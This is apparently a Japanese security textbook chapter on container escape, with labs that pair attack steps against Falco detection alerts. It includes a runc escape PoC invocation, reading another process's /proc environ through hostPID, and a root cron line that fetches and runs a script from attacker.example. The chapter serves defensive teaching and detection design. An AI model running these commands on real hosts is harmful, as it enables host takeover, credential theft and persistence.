

# 第7章：Container Escape - ホスト境界の突破

## この章で学ぶこと

- コンテナランタイムが前提とする境界モデルと、それが崩れる条件
- Lab 10〜12の実験手順とFalcoでの観測結果
- ホストに到達した攻撃者が最初に行う初動の検知ポイント

ここまでの章は「コンテナの中」で完結する話が中心でしたが、本章ではついに**コンテナとホストを隔てる境界そのもの**が突破される瞬間を扱います。MITRE ATT&CK for Containersの**Escape to Host**戦術に対応します。

---

## コンテナランタイムの境界モデル

コンテナは「隔離された環境」ではなく、**Linux Namespace / cgroups / Capabilities によって制限された、同じカーネルを共有するプロセス**です。この前提を崩す条件は大きく3つに整理できます。



第6章のLab 7（特権コンテナ・hostPath）もこの境界モデルの崩れの一種でしたが、本章ではさらに踏み込み、**既知のエスケープ手法の再現**と、**エスケープ後の初動**まで扱います。

## Lab 10: 既知のエスケープ手法の再現（CVE例）

- **MITRE ATT&CK for Containers**: T1611 (Escape to Host)
- **前提**: 本書のラボでは、実クラスタへの影響を限定するため、**パッチ未適用の脆弱なコンテナランタイムを隔離されたkind環境に再現**し、公開されているPoC手法（`runc`の過去の脆弱性クラス、`CVE-2019-5736`系統の手口）をベースにした再現コードを使います。最新版ランタイムでは再現しません。

```bash
# 隔離環境内でのみ実行（本番相当のランタイムには絶対に試さない）
./runc-escape-poc --target-container=victim
```

**Falcoの検知結果**:

```
18:50:12.004521000: Critical Overwrite of Host Binary from Container (file=/usr/bin/runc container=victim)
18:50:12.112044000: Critical Write Below Binary Dir (user=root file=/host/usr/bin/docker-runc)
```

標準ルールの`Write below binary dir`系が、**ホスト側の実行ファイルがコンテナから書き換えられる**という決定的な瞬間を捉えています。

**考察**: 個別のCVEごとに専用ルールを作るのではなく、「**コンテナからホストのバイナリが書き換えられる**」という**結果に着目した汎用ルール**が、未知のバリエーションにも効くという点が重要です。CVE番号ベースの対策は後手に回りがちですが、振る舞いベースの検知はエスケープ手法そのものが変わっても有効です。

## Lab 11: 共有Namespace/Volumeの悪用

- **MITRE ATT&CK for Containers**: T1611
- **前提**: `hostPID: true`を設定したPod

```yaml
spec:
  hostPID: true
  containers:
    - name: app
      image: alpine:3.19
```

```bash
kubectl exec -it host-pid-pod -- sh
# ホストの全プロセスが見える
ps aux
# 他プロセス（ホスト上で動く他コンテナ含む）のメモリ空間にアクセス
cat /proc/<host-process-pid>/environ
```

`hostPID: true`により、コンテナはホストと同じPID Namespaceを共有し、**ホスト上の他プロセス（他コンテナを含む）の環境変数やファイルディスクリプタに直接アクセス**できてしまいます。

**Falcoの検知結果**:

```
18:55:33.771022000: Warning Read Environ of Other Process (container=host-pid-pod target_pid=4821 file=/proc/4821/environ)
```

**考察**: `hostPID`自体は正当な運用ニーズ（デバッグ用途など）で使われることもあるため、**「hostPIDが付与されていること」自体より「それを使って他プロセスの機密情報に実際にアクセスしたこと」を検知対象にする**設計が、誤検知を抑える上で有効でした。

## Lab 12: ホスト到達後の初動

- **MITRE ATT&CK for Containers**: T1543 (Create or Modify System Process), T1053 (Scheduled Task/Job)
- **前提**: Lab 10でホストに到達した状態から、永続化のためにホスト側のcronを書き換える

```bash
# ホストのシェルを取得した状態で
echo "* * * * * root curl http://attacker.example/beacon | sh" >> /etc/cron.d/system-check
```

**Falcoの検知結果**:

```
19:02:10.550112000: Critical Scheduled Task Creation on Host (file=/etc/cron.d/system-check container=host)
```

**考察**: ホストに到達した後の挙動は、**コンテナ固有の検知ロジックではなく、一般的なホストセキュリティの検知ロジック（cron改ざん、systemdユニット作成など）がそのまま有効**になります。Falcoはコンテナ専用ツールと思われがちですが、ノード上で動くプロセスである以上、ホスト上の異常も同じドライバで捉えられるのは実務上重要なポイントです。

---

## 本章のまとめ

| Lab | 手法 | Falco | 検知の鍵 |
|---|---|---|---|
| 10 | 既知エスケープ手法の再現 | ✅ 検知 | ホストバイナリ書き換えという「結果」ベースの検知 |
| 11 | hostPID/Volume共有の悪用 | ✅ 検知 | 「権限の付与」ではなく「権限の悪用」を検知対象に |
| 12 | ホスト到達後の初動（永続化） | ✅ 検知 | ホスト向けの一般的な検知ロジックがそのまま有効 |

Container Escapeフェーズは3本とも検知に成功しましたが、これは**ラボで用意した手法が比較的よく知られたパターンだったため**でもあります。次章では、エスケープせずともクラスタ内で広がっていく「Lateral Movement」を扱います。
